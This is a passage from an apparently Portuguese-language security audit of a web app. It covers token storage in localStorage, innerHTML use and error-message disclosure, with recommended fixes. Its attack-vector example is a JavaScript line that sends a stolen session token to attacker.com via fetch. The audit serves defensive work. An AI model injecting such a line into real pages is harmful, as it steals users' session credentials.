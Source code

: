 **Vetor de Ataque:**
```javascript
// XSS pode roubar token
const token = localStorage.getItem('unit-token');
fetch('https://attacker.com/steal?token=' + token);
```

**Correção Necessária:**
```typescript
// ✅ Usar httpOnly cookies ao invés de localStorage
// Backend deve setar cookie:
res.cookie('unit-token', token, {
  httpOnly: true,      // ✅ JavaScript não pode acessar
  secure: true,        // ✅ Apenas HTTPS
  sameSite: 'strict',  // ✅ Proteção CSRF
  maxAge: 8 * 60 * 60 * 1000 // 8 horas
});

// Frontend não armazena nada, apenas faz requests
// Token vai automaticamente nos requests via cookie
```

**Prioridade:** ⚠️ MÉDIO

---

### 🟢 BAIXAS (Monitoramento Recomendado)

#### V7. innerHTML/dangerouslySetInnerHTML
**Nível:** 🟢 BAIXO  
**Impacto:** Potencial XSS se conteúdo não for sanitizado  

**Arquivos Afetados:**
```typescript
client/src/main.tsx
client/src/utils/error-handler.ts
client/src/components/ui/chart.tsx
client/src/components/admin/ui/chart.tsx
```

**Recomendação:**
- Revisar uso de `innerHTML` e `dangerouslySetInnerHTML`
- Garantir que TODO conteúdo seja sanitizado com DOMPurify
- Preferir renderização segura via React

**Prioridade:** ℹ️ BAIXO

---

#### V8. Information Disclosure via Error Messages
**Nível:** 🟢 BAIXO  
**Impacto:** Revelação de stack traces e paths em desenvolvimento  

**Código Atual:**
```typescript
// Já implementado corretamente em produção
res.status(500).json({
  error: "Erro interno do servidor",
  details: process.env.NODE_ENV === 'development' ? error.message : undefined
});
```
